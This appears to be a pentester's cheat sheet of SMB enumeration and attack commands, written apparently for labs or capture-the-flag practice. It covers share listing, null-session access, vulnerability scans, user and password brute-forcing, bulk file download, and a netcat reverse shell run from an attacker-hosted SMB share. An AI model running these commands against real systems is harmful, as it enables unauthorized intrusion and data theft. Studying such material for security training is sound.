 # enumerating SMB 
```bash
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth

Enumerate Hostname : nmblookup -A [ip] 

-U # Username
```
## flags
```bash
smbmap -H [ip/hostname]
echo exit | smbclient -L \\\\[ip]
nmap --script smb-enum-shares -p 139,445 [ip]
# Check Null Sessions
smbmap -H [ip/hostname]
smbclient \\\\[ip]\\[share name]
nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 
Overall Scan - enum4linux -a [ip] 
smbver.sh [IP] (port) [Samba] # Manual Inspection
-N #Force to not use password aka NULL session attack
get flag_1 - # read file
```

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>
```

## Linux
![[Pasted image 20221123163345.png]]
```bash
nmblookup -A <Target IP>

```


# SMB server
smbserver.py NAME $(DIR) -smb2support -user USER -password password
exde1234
```
smbserver.py share DIRECTORY # Start Smbserver



# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT
```




# connect smb windows
$pass = convertto-securestring 'exde1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential $cred -Root \\10.10.17.185\super


# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
smb_login

```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```